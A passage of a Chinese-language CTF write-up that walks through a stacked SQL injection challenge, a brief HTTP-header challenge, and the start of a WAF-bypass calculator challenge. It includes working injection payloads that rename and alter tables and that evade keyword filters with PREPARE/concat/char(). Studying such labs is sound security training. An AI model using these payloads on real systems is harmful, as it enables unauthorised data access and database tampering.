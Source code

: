 [![img](20210817020714.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_55215f35b7327ec59a0601a79c41e347.jpg)
分别查看两个表的结构，如图：

    ?inject=1';desc <code>1919810931114514</code>;%23
    ?inject=1';desc words;%23

[![img](20210817020942.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_310e7e5b6178d475b4a969289073724a.jpg)

[![img](20210817020948.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_b60311754f522764ebac96573f46f15c.jpg)
**注意，此处的表名1919*需要加反引号，推测是关键字冲突或者数据类型的原因。**
根据两张表的结构，猜测很有可能直接在输入框中进行的查询就是在words表中的，而真正的flag就在1919表中。
因此我们可以直接修改两张表的名字，使得直接查询就是查询的1919表中的flag。
此处需要注意的是，输入框默认查询的是words中的id列，但1919表中没有该列，因此只需要修改任意列为id或者增添一列为id即可。

    ?inject=1';rename table words to ttt; rename table <code>1919810931114514</code> to words; alter table words change flag id varchar(10) not null;%23

### 方法2

> 考点：sql语句预编译

由题目知道题目是过滤了select等关键字的，因此可以用预编译+concat绕过。
此处提供几个payload:

    ?inject=1';PREPARE test from concat('se','lect',' * from <code>1919810931114514</code>');EXECUTE test; %23
    ?inject=1';SET @sql=concat(char(115,101,108,101,99,116),'* from <code>1919810931114514</code>');PREPARE test from @sql;EXECUTE test;%23
    ?inject=1';PREPARE test from concat(char(115,101,108,101,99,116),'* from <code>1919810931114514</code>');EXECUTE test;%23

## [极客大挑战 2019]Http

> 考点：http
> 注意X-Forwarded-For字段，用来标识连接到web服务器请求的ip地址。

## [RoarCTF 2019]Easy Calc

> 考点：
> waf的绕过
> php特殊字符的绕

首先查看源代码，发现网页开启了waf：
[![img](20210817020958.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_1b3d351c3941779e69d6dcbb8d521261.jpg)
发现网页是对get方法传入的参数进行URL编码，然后传递给calc.php进行处理。
查看calc.php发现有代码：
[![img](20210817021001.jpeg)](http://code.ltfall.top/wp-content/uploads/2021/08/wp_editor_md_2285cf7cc08f41e4914448f77cfdc88e.jpg)
代码审计，发现过了了很多，然后直接有代码执行。
想扫描目录文件，但是发现有过滤，因此用chr函数绕过：

